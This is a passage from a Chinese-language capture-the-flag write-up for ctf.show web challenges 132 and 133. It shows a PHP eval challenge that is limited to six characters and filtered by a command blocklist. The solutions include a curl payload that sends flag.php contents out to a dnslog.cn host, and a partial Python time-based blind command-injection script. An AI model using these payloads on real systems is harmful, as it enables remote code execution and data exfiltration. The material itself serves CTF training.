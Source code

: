 ||只要满足一个就可以了

构造username=admin

然后code=admin突然就可以了

$code === mt_rand(1,0x36D)的考点没弄明白只知道是一个更好的生成随机函数

```
payload：?username=admin&password=&code=admin
```



## WEB133 curl 带出

```
error_reporting(0);
highlight_file(__FILE__);
//flag.php
if($F = @$_GET['F']){
    if(!preg_match('/system|nc|wget|exec|passthru|netcat/i', $F)){
        eval(substr($F,0,6));
    }else{
        die("6个字母都还不够呀?!");
    }
}
```

eval中被限制6个字符

利用curl外带数据

```
payload:?F=`$F`; curl `cat flag.php|grep "flag"`.di5ab0.dnslog.cn
```

参考：https://blog.csdn.net/qq_46091464/article/details/109095382（作者本人的博客）

其他解法

bash盲注脚本

exp：

```
#!/usr/bin/env python3
#-*- coding:utf-8 -*-
#__author__: 颖奇L'Amore www.gem-love.com

import requests
import time as t
from urllib.parse import quote as urlen
url  = 'http://2505541e-7bbc-4055-b36b-00c8454b850e.challenge.ctf.show/?F=`$F%20`;'
alphabet = ['{','}', '.', '@', '-','_','=','a','b','c','d','e','f','j','h','i','g','k','l','m','n','o','p','q','r','s','t','u','v','w','x','y','z','A','B','C','D','E','F','G','H','I','J','K','L','M','N','O','P','Q','R','S','T','U','V','W','X','Y','Z','0','1','2','3','4','5','6','7','8','9']

result = ''
for i in range(1,50):
	for char in alphabet:

		# payload = "if [ `ls  | grep 'flag' |cut -c{}` = '{}' ];then sleep 5;fi".format(i,char) #flag.php

​		payload = "if [ `cat flag.php | grep 'flag' |cut -c{}` = '{}' ];then sleep 5;fi".format(i,char)

		# data = {'cmd':payload}

```